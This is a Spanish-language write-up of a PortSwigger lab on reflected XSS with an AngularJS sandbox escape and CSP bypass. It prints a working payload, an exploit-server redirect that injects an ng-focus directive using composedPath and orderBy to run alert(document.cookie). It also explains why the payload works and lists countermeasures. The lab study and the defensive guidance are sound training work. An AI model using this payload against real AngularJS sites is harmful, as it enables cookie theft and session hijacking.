

# Writeup: Reflected XSS with AngularJS sandbox escape and CSP (PortSwigger)

- **Lab**: Reflected XSS with AngularJS sandbox escape and CSP
- **URL**: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp
- **Categoría**: XSS -> Reflected -> Client-side template injection -> AngularJS sandbox escape + CSP bypass
- **Dificultad**: Practitioner

---

## 1. Objetivo

El lab refleja el parámetro `search` dentro de una página procesada por AngularJS y además aplica una **Content Security Policy (CSP)** que bloquea JavaScript inline clásico. El reto consiste en ejecutar:

```js
alert(document.cookie)
```

sin usar un handler nativo como `onfocus=...`, porque CSP lo bloquearía. La vía correcta es inyectar una directiva AngularJS (`ng-focus`) y hacer que Angular, no el navegador, evalúe la expresión.

### Lo que ya sabemos antes de tocar nada

- **Framework**: AngularJS legacy.
- **Punto de inyección**: parámetro `search`, reflejado como HTML.
- **Defensa adicional**: CSP bloquea handlers inline nativos (`onclick`, `onfocus`, etc.).
- **Bypass**: `ng-focus` no es JavaScript inline para el navegador; es un atributo que AngularJS interpreta después.
- **Primitivo de activación**: un fragment `#x` enfoca automáticamente el elemento con `id=x`.
- **Primitivo de escape**: `$event.composedPath()` + `orderBy` permite llegar a objetos del evento y evaluar una expresión que llama a `alert`.

---

## 2. Qué cambia respecto al lab anterior

En el lab anterior ([`reflected-xss-angularjs-sandbox-escape-without-strings`](../reflected-xss-angularjs-sandbox-escape-without-strings/writeup.md)), la inyección real estaba en el **nombre del parámetro** que llegaba a `$parse`, y el payload usaba `orderBy` junto con `String.fromCharCode(...)` para no escribir strings.

Aquí el patrón es distinto:

1. Inyectamos HTML directamente en `search`.
2. Ese HTML incluye una directiva AngularJS.
3. CSP impide handlers nativos como `onfocus=alert(1)`.
4. AngularJS sí procesa `ng-focus=...` porque Angular ya está cargado como script permitido por la página.

La diferencia clave:

```html
<!-- Bloqueado por CSP: el navegador lo interpreta como JavaScript inline. -->
<input id=x onfocus="alert(document.cookie)">

<!-- El navegador sólo ve un atributo HTML cualquiera; AngularJS lo evalúa después. -->
<input id=x ng-focus="$event.composedPath()|orderBy:'(z=alert)(document.cookie)'">
```

---

## 3. Payload final

En el exploit server, el body usado fue:

```html
<script>
location='https://LAB.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

Sustituyendo el host real del lab:

```html
<script>
location='https://0ab40044032162098254757401b6006c.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

Payload de `search` decodificado:

```html
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>
```

La URL termina en:

```text
#x
```

Ese fragment apunta al elemento inyectado con `id=x`.

---

## 4. Pasos de resolución

1. Abrir el lab.
2. Abrir **Go to exploit server**.
3. En el campo **Body**, pegar:

```html
<script>
location='https://LAB.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

4. Cambiar `LAB.web-security-academy.net` por el host real de la instancia.
5. Pulsar **Store**.
6. Pulsar **View exploit** para probarlo en el navegador propio. Debe redirigir al lab y disparar `alert(document.cookie)`.
7. Volver al exploit server y pulsar **Deliver exploit to victim**.
8. El lab queda marcado como **Solved**.



---

## 5. Por qué funciona

### 5.1 CSP bloquea JavaScript inline del navegador

CSP es una política que el servidor envía y el navegador aplica. Si la política no permite inline script, payloads clásicos como estos quedan bloqueados:

```html
<script>alert(document.cookie)</script>

<input autofocus onfocus=alert(document.cookie)>
```

El navegador reconoce `onerror`, `onfocus` y `<script>` como JavaScript inline. Si la CSP no permite `'unsafe-inline'`, no los ejecuta.

### 5.2 `ng-focus` no es un handler nativo del navegador

Este atributo:

```html
ng-focus="..."
```

no tiene significado especial para el navegador. Para el navegador es un atributo HTML normal, igual que `data-test` o `foo`.

Quien lo interpreta es AngularJS. Cuando Angular compila el DOM, encuentra `ng-focus` y registra un listener de foco. Como AngularJS ya está cargado como script permitido por CSP, esa lógica puede ejecutarse.

Por eso el bypass no consiste en "desactivar CSP". CSP sigue activa. Lo que ocurre es que la aplicación expone otro evaluador de expresiones dentro de un script legítimo.

### 5.3 El fragment `#x` dispara el foco

El payload inyecta:

```html
<input id=x ...>
```

Y la URL termina con:

```text
#x
```

Al navegar a una URL con fragment, el navegador intenta localizar el elemento con ese `id`. En este caso, el elemento es un `<input>`, así que puede recibir foco. Ese foco dispara la directiva Angular:

```html
ng-focus=...
```

Sin `#x`, el input quedaría en la página, pero la expresión no se ejecutaría automáticamente.

### 5.4 `$event.composedPath()` como fuente de objetos útiles

Dentro de una directiva de evento AngularJS, existe `$event`. El método:

```js
$event.composedPath()
```

devuelve el camino del evento: input, nodos contenedores, document y, al final, `window`.

Ese array de objetos se pasa al filtro:

```js
|orderBy:'(z=alert)(document.cookie)'
```

`orderBy` evalúa la expresión de ordenación contra los elementos del array. Al alcanzar un contexto donde `alert` y `document.cookie` son resolubles, la expresión:

```js
(z=alert)(document.cookie)
```

hace dos cosas:

1. Asigna `alert` a `z`.
2. Llama a `z(document.cookie)`.

La forma `(z=alert)(...)` evita escribir una llamada directa más obvia y funciona dentro de la evaluación de expresiones de AngularJS.

---

## 6. Resumen de la cadena

```mermaid
flowchart TB
    A[1. Exploit server redirige al lab con search malicioso]
    B[2. search inyecta input con id x y ng-focus]
    C[3. CSP bloquearia onfocus nativo o script inline]
    D[4. ng-focus no es handler nativo, AngularJS lo interpreta]
    E[5. Fragment #x enfoca el input inyectado]
    F[6. Evento focus expone $event]
    G[7. composedPath devuelve una cadena de objetos hasta window]
    H[8. orderBy evalua la expresion contra esos objetos]
    I[9. (z=alert)(document.cookie) ejecuta alert con cookie]
    J[10. Lab solved]

    A --> B --> C --> D --> E --> F --> G --> H --> I --> J
```

Tres ideas para llevarse:

1. **CSP es del navegador, no de AngularJS**. El servidor envía la política y el navegador la aplica. Angular sólo es una librería que corre dentro de la página.
2. **CSP bloquea handlers inline nativos, pero no arregla CSTI**. Si el framework permitido por CSP evalúa expresiones controladas por usuario, el bug raíz sigue vivo.
3. **Los fragmentos `#id` pueden ser primitivos de interacción**. En este lab, `#x` transforma una inyección HTML pasiva en ejecución automática porque fuerza el foco del input.

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **No permitir que input no confiable sea compilado por AngularJS**. La mitigación principal es evitar que HTML controlado por usuario entre en zonas manejadas por Angular.
2. **No usar AngularJS legacy como frontera de seguridad**. El sandbox de AngularJS no debe considerarse una defensa. Aplicaciones antiguas deben migrar o aislar estrictamente componentes AngularJS.
3. **Sanitizar HTML con allow-list estricta**. Si se permite HTML de usuario, bloquear atributos/directivas Angular (`ng-*`, `data-ng-*`, `x-ng-*`) y no sólo handlers nativos como `on*`.
4. **CSP estricta como defensa en profundidad**. CSP ayuda contra payloads clásicos, pero debe complementarse con sanitización correcta y eliminación de evaluadores de expresiones expuestos.
5. **Deshabilitar compilación dinámica peligrosa**. Evitar patrones como `ng-bind-html` con contenido no confiable o cualquier ruta que recompile DOM controlado por usuario.

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Reflected XSS with AngularJS sandbox escape and CSP*. https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp
- PortSwigger Web Security Academy. (s.f.). *Client-side template injection*. https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection
- PortSwigger Research. (2016). *XSS without HTML: Client-Side Template Injection with AngularJS*. https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
- MDN Web Docs. (s.f.). *Content Security Policy (CSP)*. https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- OWASP Foundation. (s.f.). *Cross Site Scripting Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-xss.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-xss.md)
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-seguridad-cabeceras.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-seguridad-cabeceras.md)
